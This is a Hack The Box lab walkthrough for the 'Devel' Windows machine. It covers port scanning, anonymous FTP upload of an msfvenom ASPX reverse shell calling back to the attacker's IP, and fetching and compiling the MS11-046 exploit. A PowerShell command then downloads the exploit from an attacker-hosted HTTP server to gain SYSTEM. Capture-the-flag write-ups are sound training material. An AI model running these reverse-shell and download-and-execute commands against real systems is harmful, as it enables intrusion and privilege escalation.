


# [Devel](https://app.hackthebox.com/machines/devel)

```bash
nmap -p- --min-rate 10000 10.10.10.5 -Pn 
```


From open ports(21,80), we do greater nmap scan for these.

```bash
nmap -A -sC -sV -p21,80 10.10.10.5 -Pn 
```

I see that it is IIS server which runs via Dotnet language, for this .aspx language is used.


Another thing, I see that I can login to FTP by anonymously (anonymous: empty_password).


I see that FTP's shell is server on http port (80), that's why we can upload malicious **'dr4ks.aspx**' file into FTP.

So, let's create malicious reverse shell via `msfvenom` tool.

```bash
msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.16.8 LPORT=1337 -o dr4ks.aspx
```



Then, I browse the page which my reverse shell.aspx works.


I got reverse shell.


While I do `systeminfo` command to learn target's infrastructure.


I see that it Microsoft Windows 7 build 7600 system.

Let's search publicly known exploits.

That's CVE-2011-1249 which calls as 'MS11-046'.


Let's download C script.

```bash
searchsploit -m 40564
i686-w64-mingw32-gcc 40564.c -o 40564.exe -lws2_32
```


Now, as I have executable, let's try to upload this into target machine.

```bash
python3 -m http.server --bind 10.10.16.8 8080  # create web app to serve files

powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.16.8:8080/40564.exe', 'c:\Users\Public\Downloads\40564.exe')"  #download
```


After execution of this malicious exe, we are **ROOT USER.**


user.txt




root.txt


